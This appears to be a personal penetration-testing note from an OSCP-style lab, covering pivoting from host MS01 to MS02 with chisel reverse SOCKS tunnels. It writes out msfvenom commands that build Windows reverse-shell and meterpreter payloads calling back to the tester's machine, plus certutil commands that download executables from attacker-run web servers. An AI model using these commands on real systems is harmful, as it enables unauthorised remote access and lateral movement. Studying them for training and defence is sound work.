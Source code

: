 MS01 T1 chisel client

chisel_1.8.1_windows_amd64.exe client 192.168.49.118:8000 R:1080:socks
```
chisel_1.8.1_windows_amd64.exe client 192.168.49.118:8000 R:1080:socks 4430:192.168.49.118:443 4431:192.168.49.118:4431 4432:192.168.49.118:4432 4433:192.168.49.118:4433
```

 if this doesn't work, going to generate an msfvenom payload that connects back to MS01 make a reverse shell and hopefully forwarded back to my kali machine.

- going to go back to my original client chisel, get an addition reverse shell, 

Currently chisel setup:

kali <-> 192.168.118.101 (MS01) -> RDP into 172.16.118.102

Need Chisel setup:

kali <-> MS01 <-> MS02

- Opening a 2nd reverse shell before setting up client
```shell
# 2nd msfvenom shell made
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.118 LPORT=1313 -f exe -o revshell.exe 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.222 LPORT=4445 -f exe -o revshell.exe
```

![[2nd reverse shell.png]]
```shell
# pulling over 2nd reverse shell
certutil.exe -urlcache -split -f "http://192.168.49.118:1337/ms01-2nd.exe"

#caught 2nd system reverse shell
```


![[successful 2nd reverse shell.png]]

- now we have 2 shells i am setting one up as the proxy chains server 
```shell

chisel_1.8.1_windows_amd64.exe client 192.168.49.118:8000 R:1080:socks

```

- back on with xfreerdp

![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/back on with xfreerdp with 2 reverse shells on ms01.png]]


- going to try to pull over chisel
certutil.exe -urlcache -split -f "http://172.16.118.101:80/C:/Windows/Temp/chisel_1.8.1_windows_amd64.exe"

certutil.exe -urlcache -split -f "http://172.16.118.101:80\C:\Windows\Temp\chisel_1.8.1_windows_amd64.exe"

